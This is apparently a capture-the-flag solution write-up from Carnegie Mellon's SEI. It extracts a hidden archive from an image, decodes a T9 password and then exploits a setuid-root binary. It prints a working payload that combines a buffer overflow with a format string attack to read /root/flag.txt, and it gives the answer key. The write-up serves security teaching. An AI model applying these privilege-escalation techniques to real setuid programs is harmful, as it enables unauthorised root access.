

# Thx 4 Axing

## Solution

The user is given a picture of an axe (`CHALLENGE.JPEG`). In a terminal, use
`binwalk` to extract files hidden inside the image:

```
$ binwalk --extract CHALLENGE.JPEG

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
3932          0xF5C           Zip archive data, at least v2.0 to extract,
compressed size: 12901292, uncompressed size: 12899322, name: CHALLENGE.gpg
12905378      0xC4EBA2        End of Zip archive

$ cd _CHALLENGE.JPEG.extracted/
$ ls
CHALLENGE.gpg  F5C.zip
```

The `binwalk` program extracted the `F5C.zip` file embedded in the original
`CHALLENGE.JPEG`, and then automatically uncompressed it, extracting the
final result in the form of `CHALLENGE.gpg`.

Using `strings` on the `F5C.zip` file will show a note appended at the end,
containing a hint about a possible password we might use on `CHALLENGE.gpg`:

```
$ strings F5C.zip
...
Decode the password:
18 24 34 47 34 47 18 24 23 17 12 47 47 19 36 37 13 39 36 28 47 23 23 25
```

The password is a T9 encoding on a cellphone keyboard (shown below):



The encoding scheme is: `18 = press 8 once`; `24 = press 4 twice`, etc. The
decoded password is `thisisthepasswordyouseek`.

Decrypt `CHALLENGE.gpg` with the password:

```
$ gpg --passphrase thisisthepasswordyouseek CHALLENGE.gpg
...
$ ls
CHALLENGE  CHALLENGE.gpg  F5C.zip
```

The decrypted challenge file is an ISO:

```
$ file CHALLENGE
CHALLENGE: ISO 9660 CD-ROM filesystem data 'CDROM'
```

You can mount the ISO to a new folder of your choice:

```
$ mkdir new
$ sudo mount CHALLENGE ./new
$ ls new/
asus_jffs  cifs2  etc_ro  lib  opt     rom       sbin     tmp  www
bin        dev    home    mmc  proc    root      sys      usr
cifs1      etc    jffs    mnt  ra_SKU  rr_moved  sysroot  var
```

There are a bunch of files named `vuln` scattered throughout this file system,
so we must look for one that is a valid ELF executable:

```
$ find new/ -name vuln -exec file {} +
new/asus_jffs/vuln:   setuid data
new/bin/vuln:         setuid data
new/etc_ro/vuln:      setuid data
new/jffs/vuln:        setuid data
new/proc/vuln:        setuid data
new/rom/dlna/vuln:    setuid data
new/rom/etc/vuln:     setuid data
new/sbin/vuln:        setuid data
new/tmp/vuln:         setuid data
new/usr/bin/vuln:     setuid data
new/usr/local/vuln:   setuid data
new/usr/sbin/vuln:    setuid ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0,
BuildID[sha1]=6933ed17af39cf8d3ba35e9c8767cd78bb01447b, not stripped
new/usr/vuln:         setuid data
new/www/userRpm/vuln: setuid data
new/www/vuln:         setuid data
```

At this point, the challenge relies on competitors having limited `sudo`
access (mount filesystems, but not start a root shell). The `new/usr/sbin/vuln`
program is owned by `root` and has the `setuid` flag enabled, which means it
runs with `root` privileges when executed by unprivileged users. The goal is
to exploit a buffer overflow and a format string vulnerability to get the
program to print out the flag as GPS coordinates.

As it is, running `strings` on the `vuln` binary divulges the string
`/root/flag.txt`, which we immediately guess must contain the flag we are
after. If access to the challenge machine is limited, competitors would have
to continue exploiting the vulnerable binary.

Executing the program to see what happens, we get:

```
$ cd new/usr/sbin/
$ ./vuln
What is your name?
hello
hello
```

The program has a buffer overflow and format string vulnerabilities. Use the
following string to exploit the program and revela the flag:

```
python -c "print '\x40\xa0\x04\x08\x44\xa0\x04\x08ijklmnopqrstuvwxyz'*4 + 'ABCDEFGH\x16\x86\x04\x08' + 'A'*4000 + '%7\$n' +'A'*450 + '%8\$n'" > string2
```

This is a python program to generate the exploit string and write it to a file.
The exploit string starts with two program addresses. These are variables that
need to be overwritten. Then some characters to fill up the buffer, then an
address to return to, followed by some more letters and a format string. More
details below.

### Buffer Overflow Vulnerability
The buffer overflow will be exploited such that the vulnerable function will
return to `0x08048616`. This is the address of function `a()`, which will print
the flag.

### Format String Vulnerability
In order for function `a()` to print the flag, certain conditions need to be
met with a few variables. Those variables have addresses `0x0804a040` and
`0x8040a044` as seen in the beginning of the exploit string.

The addresses will be the 7th and 8th variables on the stack when `printf()`
is called without a format string given. By using `%7$n`, the `printf()` call
will write a number (the number of characters output so far) to that address
location. This will set the variable's value to that number. In order for the
conditions to be met, `v1` must be bigger than 4000 and `v2` must be negative.
The values in the exploit string are such that those conditions are met.

Successful exploitation and causing the variables to meet the required
conditions will result in the program using its `suid` root privileges to
print the contents of the otherwise "inaccessible" file `/root/flag.txt`.


<br><br>

Flag - `40°42'24''N 74°0'40''W`

## License
Copyright 2020 Carnegie Mellon University.  
Released under a MIT (SEI)-style license, please see LICENSE.md in the project root or contact permission@sei.cmu.edu for full terms.
